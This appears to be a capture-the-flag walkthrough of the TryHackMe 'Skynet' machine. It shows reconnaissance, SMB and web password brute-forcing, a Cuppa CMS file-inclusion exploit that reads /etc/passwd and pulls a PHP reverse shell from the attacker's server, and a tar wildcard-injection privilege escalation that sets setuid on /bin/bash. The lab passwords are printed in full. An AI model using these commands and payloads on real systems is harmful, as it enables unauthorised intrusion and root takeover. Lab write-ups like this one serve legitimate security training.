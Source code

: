

![Skynet Logo](https://tryhackme-images.s3.amazonaws.com/room-icons/78628bbf76bf1992a8420cdb43e59f2d.jpeg)


```
Machine: Skynet
```

```
Task 1: Are you able to compromise this Terminator themed machine?
```
1. What is Miles password for his emails? => cyborg007haloterminator

	1. Run nmap basic scan with -sc flag to see which ports are open nmap -sc $IP -oN casual.txt
	   ```
	    Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-08 11:41 EST
		Nmap scan report for 10.10.188.103
		Host is up (0.42s latency).
		Not shown: 994 closed ports
		PORT    STATE SERVICE
		22/tcp  open  ssh
		| ssh-hostkey: 
		|   2048 99:23:31:bb:b1:e9:43:b7:56:94:4c:b9:e8:21:46:c5 (RSA)
		|   256 57:c0:75:02:71:2d:19:31:83:db:e4:fe:67:96:68:cf (ECDSA)
		|_  256 46:fa:4e:fc:10:a5:4f:57:57:d0:6d:54:f6:c3:4d:fe (ED25519)
		80/tcp  open  http
		|_http-title: Skynet
		110/tcp open  pop3
		|_pop3-capabilities: UIDL PIPELINING TOP SASL AUTH-RESP-CODE CAPA RESP-CODES
		139/tcp open  netbios-ssn
		143/tcp open  imap
		|_imap-capabilities: IMAP4rev1 capabilities OK LOGINDISABLEDA0001 LOGIN-REFERRALS LITERAL+ more IDLE ENABLE SASL-IR post-login listed ID Pre-login have
		445/tcp open  microsoft-ds
		Host script results:
		|_clock-skew: mean: 2h00m05s, deviation: 3h27m51s, median: 4s
		|_nbstat: NetBIOS name: SKYNET, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
		| smb-os-discovery: 
		|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
		|   Computer name: skynet
		|   NetBIOS computer name: SKYNET\x00
		|   Domain name: \x00
		|   FQDN: skynet
		|_  System time: 2021-02-08T10:42:14-06:00
		| smb-security-mode: 
		|   account_used: guest
		|   authentication_level: user
		|   challenge_response: supported
		|_  message_signing: disabled (dangerous, but default)
		| smb2-security-mode: 
		|   2.02: 
		|_    Message signing enabled but not required
		| smb2-time: 
		|   date: 2021-02-08T16:42:14
		|_  start_date: N/A
		Nmap done: 1 IP address (1 host up) scanned in 90.79 seconds
	   ```
	2. Lets focus on port 445 and try to map smb using smbmap -H $IP and notice we have ```anonymous``` Login
		```
		[+] Guest session       IP: 10.10.188.103:445   Name: 10.10.188.103                                     
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        anonymous                                               READ ONLY       Skynet Anonymous Share
        milesdyson                                              NO ACCESS       Miles Dyson Personal Share
        IPC$                                                    NO ACCESS       IPC Service (skynet server (Samba, Ubuntu))
        ```
    3. Lets connect to the smb using ```anonymous``` user, mount -t cifs //$IP/anonymous /mnt/share we get following files and folder
    	```
    	attention.txt and logs(folder)
    	```
    4. cd logs and there are three log files named log1.txt, log2.txt and log3.txt lets cat them to see what we can get out of them. log1.txt is only populated and it seems they are password strings.
    5. Lets run a Hydra bruteforce on smb using the passwords we got in step #4 using Hydra -l milesdyson -P log1.txt smb://$IP/milesdyson, it got no success.
    6. Lets focus on web-application and bruteforce dirs using gobuster and dirbusters wordlist.```gobuster dir --url http://$IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt ```
    	```
    	output
    	http://10.10.188.103/squirrelmail/src/login.php => Intresting
    	```
    7. Lets bruteforce password the login form we found in step #6 using BurpSuite
    8. Finally we found answer to the first question that is 'cyborg007haloterminator'

2. What is the hidden directory? => /45kra24zxs28v3yd
 	1. After login with the password we found in last task we found an email that smb password for 'milesdyson' is ')s{A&2Z=F^n_E.B\`' so lets login into it
 		``` output:
 			└─$ ls -al /mnt/skynet2
 			total 48132
 			drwxr-xr-x 2 root root        0 Sep 17  2019  .
 			drwxr-xr-x 4 root root     4096 Feb  8 12:44  ..
 			-rwxr-xr-x 1 root root 19655446 Sep 17  2019 'Convolutional Neural Networks-CNN.pdf'
 			-rwxr-xr-x 1 root root  5743095 Sep 17  2019 'Improving Deep Neural Networks.pdf'
 			-rwxr-xr-x 1 root root 12927230 Sep 17  2019 'Natural Language Processing-Building Sequence Models.pdf'
 			-rwxr-xr-x 1 root root  4304586 Sep 17  2019 'Neural Networks and Deep Learning.pdf'
 			drwxr-xr-x 2 root root        0 Sep 17  2019  notes
 			-rwxr-xr-x 1 root root  3531427 Sep 17  2019 'Structuring your Machine Learning Project.pdf' ```
 	2. In the notes directory we find a text file called important.txt cat it and its output is
 		```
 		1. Add features to beta CMS /45kra24zxs28v3yd
		2. Work on T-800 Model 101 blueprints
		3. Spend more time with my wife
 		```
 	3. Hidden directory is /45kra24zxs28v3yd

3. What is the vulnerability called when you can include a remote file for malicious purposes? => Remote File Inclusion

4. What is the user flag? => ********************************
	1. Let find sub dirs under the newly found directory in step #2 using gobuster. ```gobuster dir --url http://10.10.143.232/45kra24zxs28v3yd/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt```
		```
		output
		http://10.10.143.232/45kra24zxs28v3yd/administrator/
		```
	2. We find that it is running Cuppa CMS lets use searchsploit to see if there exists a know vulnerability for the same.
	3. cool so we find that it is indeed vulnerable ```Cuppa CMS - '/alertConfigField.php' Local/Remote File Inclusion``` P.S in other cases it is atmost neccessasory to know the version of the CMS but here we have only one exploit so we will go ahead with this only.
	4. Open the txt file suggested by searchsploit and note down the payloads listed in the file.
	5. Okay so we now know that CMS is vulnerable to RFI lets try to check if it works in our case using curl and following payload
		```
		curl http://10.10.143.232/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
		Response:
		daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
		bin:x:2:2:bin:/bin:/usr/sbin/nologin
		sys:x:3:3:sys:/dev:/usr/sbin/nologin
		sync:x:4:65534:sync:/bin:/bin/sync
		games:x:5:60:games:/usr/games:/usr/sbin/nologin
		man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
		lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
        .... 
		```
	6. Now lets try to PWN the machine, I will be using php reverse shell by pentestmonkey you can download it at "https://github.com/pentestmonkey/php-reverse-shell"
	7. we will spwan a local python server and edit the shell file with IP address and Port of our chossing
	8. Lets fire the payload to get a reverse connection ```http://10.10.143.232/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://$IP:8000/rev_shell.php```
	9. we now have the shell and the current user is www-data, no lets stabilize the shell using python -c 'import pty; pty.spawn("/bin/bash")'
	10. We finally get the user flag => ********************************

5. What is the root flag? => ********************************
	1. Lets enum the maching using LinPease and see what it has got us to offer it shows under cron job root is excuting a file whit the name backup.sh owned by milesdyson
		```
		*/1 *   * * *   root    /home/milesdyson/backups/backup.sh
		```
	2. The backup.sh for is only has read persmission ```-rwxr-xr-x 1 root       root            74 Sep 17  2019 backup.sh``` so we can not edit it directly
	3. On checking the file we notice something intresting it performs ```tar cf /home/milesdyson/backups/backup.tgz *``` operation and we can here try to exploit wildcard Injection here. P>S: check this artical for more reference "https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/"
	4. I will now be following John Hammond way on setting setuid on the /bin/bash file to get the root instead of going with msfvenom his YT video link is: "https://www.youtube.com/watch?v=HXikLrFVIXc"
	5. Lets go to /var/www/html as suggested by backup.sh and fire follwoing commad to set setuid on the /bin/bash/ so we can just use simple -p to exclate our priveleges.
	6. lets ls -al /bin/bash and notice the permission we don't have it ```-rwxr-xr-x 1 root root 1037528 Jul 12  2019 /bin/bash```
	7. Now run the following command one by one and wait for a minute for the cron job to run and then we will see the permissions have changed
		```
		printf '#!/bin/bash\nchmod +s /bin/bash' > shell.sh
		echo "" > "--checkpoint-action=exec=sh shell.sh"
		echo "" > --checkpoint=1```
	8. Now lets run ls -al /bin/bash and we notice ```-rwsr-sr-x 1 root root 1037528 Jul 12  2019 /bin/bash``` setuid is sucessfully added now all we need to do is execute /bin/bash -p 
	9. cd /root dir and cat the root.txt file and you have the root flag ********************************
  
  P.S: Would credit the root flag part Mr.John Hammond as his way is way simpler then the one suggested on https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/
